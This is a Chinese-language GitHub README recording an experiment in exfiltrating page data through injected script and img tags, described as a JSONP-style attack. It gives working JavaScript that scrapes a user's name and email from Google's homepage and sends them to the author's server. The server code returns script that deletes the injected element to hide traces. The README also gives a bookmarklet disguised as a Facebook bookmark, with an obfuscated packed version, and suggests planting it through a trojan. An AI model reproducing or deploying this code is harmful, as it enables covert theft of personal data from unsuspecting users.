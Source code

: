 # JSONP-data-stealing
A try of XSS data stealing by JSONP

(個人紀錄用  可能有理解上的錯誤 對此有興趣的人也歡迎指教)

 前陣子看到了一篇利用JSONP進行XSS攻擊可能性的文章，突發奇想不知道是不是能用類似JSONP的方式，表面上是向跨網域的伺服器請求資料，其實是傳送資料給外部的伺服器。
 
(雖然覺得這種事情應該早就有人做過了XD)

以下是自己的紀錄

----
在html中大部分的東西都是不被允許跨網域存取的，只有&lt;img>&lt;script>,&lt;iframe>這幾個tag可以透過外連src跨網域的請求資料。而有了這點就代表也有機會在使用者端利用get的方式傳送資料給外部的伺服器。
舉個例子來說:

    <script src=’http://exampleHost/dataGet?data=myData’></script>

當這個tag被瀏覽器載入時會向exampleHost的dataGet頁面請求script ，而query的部分也會被以get的方式被伺服端取得，這也是JSONP的基礎精神，只要伺服器端支援JSONP就可以利用傳入的data和callback返還相對應的javascript並執行。

而如果myData的部分是透過javascript取得頁面上想要的資料再傳送時，不就等於將資料跨網域傳送給外部伺服器了嗎?

 有了想法，剛好最近又沉迷於node.js中，決定以node.js建立外部伺服器來試試看究竟可不可行。我在node.js的伺服器中寫了這樣的一個route(因為這邊的重點不是node.js的運作 所以不詳述node.js的部分):
 
      function dataGet(response,postdata,getdata,request) {      
     console.log(getdata);
      }  
      
這段程式碼做的事情很簡單，就只是將伺服器接到的getdata也就是query的部分印出。
接下來就是在寫一段要在瀏覽器端運行的javascript:
    
    var newScript= document.createElement('script');newScript.src='http://127.0.0.1:8888/dataGet?data=...'; 
    newScript.id='newScript';
    document.body.appendChild(newScript);

這段javascript做的事情是，在body中即時建立一個id為newScript新的script元件，並且將src設為自己的伺服器和路徑，這邊因為是自己在測試所以使用了localhost的127.0.0.1，至於為什麼要特地加上id後面會再詳述。

當兩端所需要的程式碼都準備好了，就是第一次測試的時候了。我一開始的目標是Facebook，結果發現在外部請求的script上Facebook不允許localhost的網域。

好樣的Facebook，記得前陣子看到通訊軟體的安全度Facebook Messenger是第一名，看來說不定Facebook在安全性的部分做了不少的用心。

<img src="http://i.imgur.com/ohO9kNH.jpg"></img>
*甚至提醒使用者不要在控制台貼上來路不明的Javascript 意外的用心*

儘管還是不能就這樣放棄，所以我又測試了img的tag，結果意外的成功了!!!

<img src="http://imgur.com/UjnqRgi.jpg"></img>
*伺服器端也成功地取得了資料*

由此可見，這個方法確實是可行的!

---

不過這跟我一開始的想法依然有點差距，所以我決定傳站其他的網頁試試，這次的目標是Google的搜尋首頁

<img src="http://imgur.com/INS0qvw.jpg"></img>

 噫！好了！我中了！ Google的搜尋首頁完全沒有阻擋外部javascript的載入，這樣就可以進一步來實行我原本的想法啦!!!
 
就像前面說的JSONP可以動態產生javascript讓網頁執行，我決定產生一段javascript讓他會刪除自己這個script的元件(也就是前面要設定id的原因)，以達到「不留痕跡」的地步。

    function dataGet(response,postdata,getdata,request) {
    console.log("Request handler 'dataGet' was called.");  
    console.log(getdata);  
    var responseScript="document.getElementById('newScript').remove();";  //刪除的script  
    response.write(responseScript);//傳出內容   response.end(); 
    }
  
  除此之外在瀏覽器端我也加了一點東西從搜尋的首頁撈點資料，這邊撈的是使用者設定的名字和他的信箱
  
      var name=document.getElementsByClassName("gb_ub")[0].innerHTML;
      var email=document.getElementsByClassName("gb_vb")[0].innerHTML;
      var newScript= document.createElement('script');newScript.src='http://127.0.0.1:8888/dataGet?name=..."&email="+email;  
      newScript.id='newScript';document.body.appendChild(newScript);
  
 如此一來就已經有個雛型了，測試一下也頗為成功。
 
 <img src="http://imgur.com/Nwlz6Vj.jpg"></img>
*在網頁元件中沒有看到新增的script元件 資料也有成功傳輸*

到了這裡，可能會發現要使用這個方法有一個大問題。那就是在執行的時候一定要在瀏覽器端輸入javascript。要怎樣在不被發現的情況下輸入確實是一個大問題，目前也只想到一個方法，不過覺得還不夠理想。

這個方法就是偽裝成其他網頁的瀏覽器書籤，現在的瀏覽器在沒有關閉功能的情況下大多都可以利用網址列執行javascript，而且也可以透過書籤執行，只要在網址的部分設定成以下的javascript即可:
    
    
    javascript:
    (
      function(){
       try{
          var name=document.getElementsByClassName("gb_ub")[0].innerHTML;
          var email=document.getElementsByClassName("gb_vb")[0].innerHTML;
          var newScript= document.createElement('script');
          newScript.src='http://127.0.0.1:8888/dataGet?name=..."&email="+email;newScript.id='newScript';
          document.body.appendChild(newScript);
          }
        catch(e){}
        window.location="http://www.facebook.com/";
       }
     )
     
     
 因為想要偽裝成Facebook的書籤列，在最後又加上了導向到Facebook的程式碼，如果覺得太明顯也可以透過javascript加密的方式將程式碼加密
 
     javascript:(eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+
       ((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);
       k=[function(e)    {return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'
       \\b','g'),k[c]);return p;}('b(){h{4 6=3.9("f")[0].7;4 5=3.9("g")[0].7;4 2=3.i(\'a\');2.d=\'8://c.0.0.1:j/q?6=\'+6+"&  5="+5;
       2.s=\'2\';3.p.r(2)}k(e) {} m.o="8://n.l.t"}',
       30,30,'||newScript|document|var|email|name|innerHTML|http|getElementsByClassName|script|function|127|src||gb 
       _ub|gb_vb|try|createElement|8888|catch|facebook|window|www|location|body|dataGet|appendChild|id|com'.split('|'),0,{})))


*透過此網站加密的結果: http://tool.chinaz.com/js.aspx*


如果是一個不知情的使用者他的Facebook書籤已經被替換掉(可能是透過木馬的方式置換)，而且正好從Google主頁要透過書籤前往Facebook時，就能從中竊取資料。
雖然這樣確實能達到效果，卻讓刪除元件的部分顯的多餘，方法本身也有些笨拙，不知道是不是還有更好的方法呢.....?

總結上這個方法應該還算是有趣，雖然在這只抓取了名字和e-mail，不過還能從使用者的網頁中挖出更多有用的資料這件事是無庸置疑的，只是為不為之的問題。

當然，這之間也還有很多限制跟問題是要解決跟改進的。
